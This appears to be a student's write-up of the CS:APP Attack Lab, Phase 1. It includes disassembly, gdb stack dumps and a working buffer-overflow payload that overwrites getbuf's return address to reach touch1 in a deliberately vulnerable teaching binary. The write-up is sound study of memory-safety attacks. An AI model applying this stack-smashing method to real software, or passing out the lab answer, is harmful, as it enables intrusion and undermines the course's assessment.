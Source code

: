 # Attack Lab

## `hex2raw`

Converts whitespace separated digits representing byte values to raw bytes.

### Example

```shell
🐳 ❯ echo "30 31 32 33" | ./hex2raw | hexdump -v -e '/1 "%02x "' | awk '{for (i=1; i<=NF; i++) printf "%c", ("0x" $i)+0}'
0123
```

### Usage

```shell
🐳 ❯ ./hex2raw < exploit > exploit.bin
🐳 ❯ ./ctarget -q < exploit.bin
```

```shell
🐳 ❯ ./ctarget -qi exploit.bin
```

```shell
🐳 ❯ cat exploit | ./hex2raw | ./ctarget -q
```

Can also be used while running `GDB`

```shell
🐳 ❯ gdb ctarget
(gdb) run -q < exploit.bin
```

## Notes

- `ctarget` and `rtarget` must be run using the `-q` option so that they don't try to contact the grading server.

## Phase 1 (`ctarget`)

```shell
🐳 ❯ ./ctarget -qi exploit.phase1.bin
```

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp                   # Allocate 40 bytes on the stack
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp                    # 🎯 [TARGET]
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)
  4017cb:	00 00 00
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>

...

0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp                    # 👨‍💻 [START]
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf>              # push return address 0x401976 onto the stack
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	call   400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	ret
  401991:	90                   	nop
  401992:	90                   	nop
  401993:	90                   	nop
  401994:	90                   	nop
  401995:	90                   	nop
  401996:	90                   	nop
  401997:	90                   	nop
  401998:	90                   	nop
  401999:	90                   	nop
  40199a:	90                   	nop
  40199b:	90                   	nop
  40199c:	90                   	nop
  40199d:	90                   	nop
  40199e:	90                   	nop
  40199f:	90                   	nop
```

### Notes

Show state of stack after calling `getbuf` from `test`

- Can see return `test` return address `0x401976` at `0x5561dca0` on the stack

```shell
(gbd) break getbuf
(gdb) run -q
(gdb) display /12gx $rsp
2: x/12xg $rsp
0x5561dca0:     0x0000000000401976      0x0000000055685fe8
0x5561dcb0:     0x0000000000401f24      0x0000000000000000
0x5561dcc0:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
0x5561dcd0:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
0x5561dce0:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
0x5561dcf0:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4

(gdb) x/2i $rip
=> 0x4017a8 <getbuf>:   sub    $0x28,%rsp
   0x4017ac <getbuf+4>: mov    %rsp,%rdi
(gdb) stepi
(gdb) x/12gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000055586000      0x0000000000401976
0x5561dca8:     0x0000000055685fe8      0x0000000000401f24
0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
(gdb) x/2i $rip
=> 0x4017ac <getbuf+4>: mov    %rsp,%rdi
   0x4017af <getbuf+7>: call   0x401a40 <Gets>
(gdb) nexti
(gdb) nexti
Type string:abcdefgh12345678123456781234567812345678ijklmnop
(gdb) x/12gx $rsp
0x5561dc78:     0x6867666564636261      0x3837363534333231
0x5561dc88:     0x3837363534333231      0x3837363534333231
0x5561dc98:     0x3837363534333231      0x706f6e6d6c6b6a69
0x5561dca8:     0x0000000055685f00      0x0000000000401f24
0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
```

Can overwrite the return address by supplying at least `0x28` bytes and then the desired new return address `0x4017c0`

- `0000000000000000000000000000000000000000` + `00000000004017c0`
- `0000000000401976` = `c0 17 40 00 00 00 00 00`
- Probably don't need to include the NULs can just provide the first 3 bytes to form the address

```shell
🐳 ❯ echo "c0 17 40" | ./hex2raw | hexdump -v -e '/1 "%02x "' | awk '{for (i=1; i<=NF; i++) printf "%c", ("0x" $i)+0}'
�@
```

- `73 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 7a 65 c0 17 40`
- `szzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzze�@`
- Mark start `s` and end `e` of stack space allocated by `getbuf`

```shell
🐳 ❯ gdb ctarget
(gdb) break getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) run -q < exploit.phase1.bin
Starting program: /csapp/labs/attacklab/ctarget -q < exploit.phase1.bin
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12y
(gdb) x/5i $rip
=> 0x4017a8 <getbuf>:   sub    $0x28,%rsp
   0x4017ac <getbuf+4>: mov    %rsp,%rdi
   0x4017af <getbuf+7>: call   0x401a40 <Gets>
   0x4017b4 <getbuf+12>:        mov    $0x1,%eax
   0x4017b9 <getbuf+17>:        add    $0x28,%rsp
(gdb) nexti
14      in buf.c
(gdb) x/12gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000055586000      0x0000000000401976
0x5561dca8:     0x0000000055685fe8      0x0000000000401f24
0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
(gdb) nexti
0x00000000004017af      14      in buf.c
(gdb) nexti
16      in buf.c
(gdb) x/12gx $rsp
0x5561dc78:     0x7a7a7a7a7a7a7a73      0x7a7a7a7a7a7a7a7a
0x5561dc88:     0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x5561dc98:     0x657a7a7a7a7a7a7a      0x00000000004017c0
0x5561dca8:     0x0000000055685fe8      0x0000000000401f24
0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4

(gdb) continue
Continuing.
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:73 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 7A 65 C0 17 40
[Inferior 1 (process 3574) exited normally]
```
